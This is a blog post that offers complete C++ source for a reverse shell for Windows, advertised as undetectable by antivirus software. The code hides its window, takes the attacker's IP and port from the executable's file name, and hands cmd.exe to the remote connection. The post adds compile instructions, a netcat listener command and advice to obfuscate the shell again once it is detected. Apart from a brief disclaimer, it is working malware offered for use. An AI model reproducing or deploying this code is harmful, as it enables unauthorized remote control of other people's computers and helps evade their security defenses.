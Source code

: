```yaml
---
title: "Fud Reverse Shell For Windows (C++)"
date: 20 December 2021
description: C++ Reverse Shell For Windows For Bypassing AV Solutions .
tags: bypass-av
words: 4237
---
```


<Prompt title="Heads up!" status="warn">
All content of this blog is only for Educational Purposes ! 
Do Not Use tools or methods of this blog on any hardware or software without authorization of the owner !
</Prompt>

Today i share a c++ reverse shell source code for windows , as time of writing , its fully undetectable !
Its bypassing all antivirus solutions and works with
- Windows 11 
- Windows 10 
- Windows 8 
- Windows 7 
- Windows Server 2019 
- Windows Server 2016 

The source code is not obfuscated and if along the way get detected by av solutions , We can obfuscate it and its ready to go again !

One of the cool methods of this reverse shell is the ip and port for your listiner , Its hardcoded on name of the .exe file !

For Example your listiner ip and port is = 192.168.1.1:8080
You rename the exe file to this :
```
192x168x1x1_8080.exe
```

# How Compile It

#### First you copy the source code :
```c
#include <winsock2.h>
#include <stdio.h>
#include <string>
#include <tchar.h>
#include <Windows.h>

#pragma comment(lib,"ws2_32")
#pragma warning(disable:4996) 
WSADATA wsaData; SOCKET s1;
struct sockaddr_in R;
STARTUPINFO A;
PROCESS_INFORMATION B;
using std::string;
string getFileName(const string& s) {

	char sep = '/';
	
	#ifdef _WIN32
		sep = '\\';
	#endif
	size_t i = s.rfind(sep, s.length());
	if (i != string::npos) {
		return(s.substr(i + 1, s.length() - i));
	}

	return("");
}

int main(int argc, char *argv[])
{
	FreeConsole(); //Hide window
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	string path =getFileName(argv[0]);
	path.resize(path.size() - 4); //remove .exe from the file
	//replace x to "."
	for (int i = 0; i < path.size(); i++) {
		if (path[i] == 'x') {
			path[i] = '.';
		}
	}
	//PORT and IP from the executable
	size_t i = path.rfind("_", path.length());
	string port = path.substr(i+1, i-path.length());
	string ip = path.substr(0, i);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
	R.sin_family = AF_INET;
	R.sin_port = htons(std::stoul(port, nullptr, 0));
	R.sin_addr.s_addr = inet_addr(ip.c_str());
	WSAConnect(s1, (SOCKADDR*)&R, sizeof(R), 0, 0, 0, 0);
	memset(&A, 0, sizeof(A));
	A.cb = sizeof(A);
	A.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	A.hStdInput = A.hStdOutput = A.hStdError = (HANDLE)s1;
	TCHAR c[256] = L"cm";
	TCHAR d[256] = L"d.exe";
	CreateProcess(NULL, _tcscat(c, d), 0, 0, 1, 0, 0, 0, &A, &B);

}
```
#### Second Save it with whatever name you want with .cpp extension 
For Example I Save The Source Code With This Name :
```
mine.cpp
```
You can compile this in two ways :
- Visual Studio
- MSVC Compiler
For compiling in visual studio you just have to make a new project and add the .cpp file to the project and compile for x64 .

If you dont have visual studio , you can use Microsoft MSVC Compiler Tool
<Resource
  links={[
    {
      title: "MSVC Compiler Tool",
      link: "https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170",
    },
  ]}
/>

After Downloading MSVC Compiler Tool you just have to open new cmd or powershell prompt on the folder you saved .cpp file and run this command :
```
cl.exe mine.cpp
```
Thats It ! After compiling you have a exe file named mine.exe .
Rename the exe file with your listiner ip and port like this :
```
192x168x1x1_8080.exe
```
Now you just have listen a port and run the exe file on the windows system . 

# Listen a port on Windows

For listen a port on windows and get the reverse connection , i suggest netcan for windows 

<Resource
  links={[
    {
      title: "Netcan For Windows",
      link: "https://github.com/rahuldottech/netcat-for-windows/releases",
    },
  ]}
/>

After downloading netcat for windows listen a port with this command :
```
nc64.exe -lvnp 8080
```
Thats it . I hope you enjoyed today post , See you next time ;)
